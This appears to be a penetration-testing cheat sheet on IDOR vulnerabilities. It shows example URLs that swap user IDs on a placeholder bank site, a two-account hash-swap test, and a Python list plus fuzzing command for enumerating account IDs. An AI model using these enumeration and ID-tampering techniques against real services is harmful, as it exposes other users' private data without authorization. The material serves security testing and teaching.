 # IDOR

IDOR (Insecure Direct Object Reference) is a type of access control vulnerability.

This type of vulnerability can occur when a web server receives user-supplied input to retrieve objects (files, data, documents), too much trust has been placed on the input data, and it is not validated on the server-side to confirm the requested object belongs to the user requesting it.

The ID can be write in **different ways**:

* **Clear-Text**: is most easy way to change that
* **Base64**: using encoded base64, but this we can replicate the encoded base64 with another id
* **Hash**: with the hash we cannot replicate the id but we can use 2 account to test the IDOR vuln

The ID we can **find in this place**:

* **URL** ⇒ /details?user\_id=123
* **PAGE** ⇒ /123/details
*   **HTTP Request to find the parameters**\


    <figure><img src="../../../../../.gitbook/assets/image (277).png" alt=""><figcaption></figcaption></figure>

## ID URL parameter

Most common is to change the profile, changing the `id` parameter into a URL.

```bash
 # our profile id
 http://bank.com/profile?user_id=1305
 http://bank.com/profile/1305/details
 
 # milionaire's profile
 http://bank.com/profile?user_id=9999
 http://bank.com/profile/9999/details
```

### Use 2 account

When we have a hash ID, to test this vulnerability we can create 2 account and invert the hash id.

```bash
# user 1 id = 123
http://bank.com/user_id=202cb962ac59075b964b07152d234b70

# user 2 id = 999
http://bank.com/user_id=b706835de79a2b4e80506f582af3676a

# invert the user 1 user_id to try get user 2 information
http://bank.com/user_id=b706835de79a2b4e80506f582af3676a
```



### Create ID list and Fuzzing

If we found a IDOR and the id is a plain-text integer, we can craft a list and using fuff tool we can discover all active account.

{% code title="Craft id_list" %}
```bash
python3 -c 'for i in range(1,2001): print(i)' > id_list.txt
```
{% endcode %}

{% code title="Active ID discovering" %}
```bash
fuff -u 'http://domain.com/info?id=FUZZ' -w id_list.txt -fs $RESP_SIZE | grep FUZZ
```
{% endcode %}

